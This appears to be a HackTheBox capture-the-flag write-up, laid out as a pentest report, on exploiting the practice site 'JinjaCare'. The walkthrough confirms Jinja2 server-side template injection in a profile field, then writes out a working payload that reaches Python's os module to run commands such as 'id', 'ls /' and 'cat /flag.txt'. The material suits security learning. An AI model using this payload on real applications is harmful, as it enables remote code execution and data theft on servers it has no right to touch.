 **Pentest Report — JinjaCare**

**Platform:** HackTheBox

**Analyst:** Kerneth

**Date:** 03/09/2025

**Mission Status:** ✅ Successfully Completed

---

### 🎯 Executive Summary

The following site tested is JinjaCare. It's a website for vaccination status and specially COVID-19 vaccination details.


![Q0](images/jinjacare_main.png)


### 🛠️ Scope & Methodology

* Nmap
* Gobuster
* BurpSuite – interception & endpoint discovery  
* Manual input fuzzing – testing injection points  
* Jinja2 SSTI payloads – template injection exploitation  
* OS command execution – confirmation of RCE

### 🔍 Findings


| Vulnerability         | Impact       | Severity |
| --------------------- | ------------ | -------- |
| SSTI in Personal Info | Leads to RCE | Critical |


The first thing that I have to do is to create an account to access inside the site.


![Q1](images/create_user.png)


Once this is done, I have search for every endpoints available with BurpSuite.


![Q2](images/burp_jinjacare.png)


We can see we've got 5 endpoints.
The First one is Dashboard and the second one is generate_certificate
We can access "generate_certificate" with "Download Certificate" and the utility is to generate a certificate with the our info in "personnal"


![Q3](images/dashboard_jinjacare.png)


And then we've got also personnal, medical and vaccinations. 
The most interesting is "personnal", accessing with Personnal Info. Here you can put your info or anything you want...
"medical" and "vaccinations" are not very interesting.
 
One very good clue, i have noticed is the name of the site : "JinjaCare", and it make me think about the ServerSide Jinja. So the first thing is to test that hypothese.
As I have already see, you can put anything you want in Personnal Info, so to test if there is a SSTI vulnerabilites with Jinja2, I have write {{7*7}}.


![Q4](images/info_user_jinjacare.png)


We can see the output if we generate the certificate.


![Q5](images/certificate_jinjacare.png)


And it's effectively a SSTI because it interpreter the 7*7 inside the {{}}.


### 🧩 Exploitation Walkthrough

The next thing is to use this SSTI into a RCE.

I have tested with this code, in the first time with "id"

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen("id").read() }}

👉 What it does:

  self._TemplateReference__context → accesses the internal context of the Jinja engine.

  .cycler → a Jinja object that holds references to internal functions.

  .__init__.__globals__ → climbs up to the Python global variables accessible in this context.

  .os → retrieves the os module from those globals.

  .popen("id").read() → executes the system command id and reads its output.


![Q6](images/id_rce_jinjacare.png)


We can see the id, so it worked.

The next step is to find the flag.

I used 
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen("ls /").read() }}

to see what we've got in the root directory


![Q7](images/ls_rce_jinjacare.png)


And 
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen("cat /flag.txt").read() }}

to see what is the flag.


![Q8](images/flag_rce_jinjacare.png)



### ✅ Conclusion

The engagement against **JinjaCare** demonstrated a critical vulnerability in the web application:  
a **Server-Side Template Injection (SSTI)** in the “Personal Information” field, which escalated to a full **Remote Code Execution (RCE)** on the host.  

Through controlled exploitation, we confirmed the ability to execute arbitrary system commands and retrieve sensitive files (including the target flag).  

**Impact:**  
An attacker with this access could completely compromise the confidentiality, integrity, and availability of the application and its data.  

**Mission outcome:**  
The target was successfully compromised, mission objectives achieved.  



 
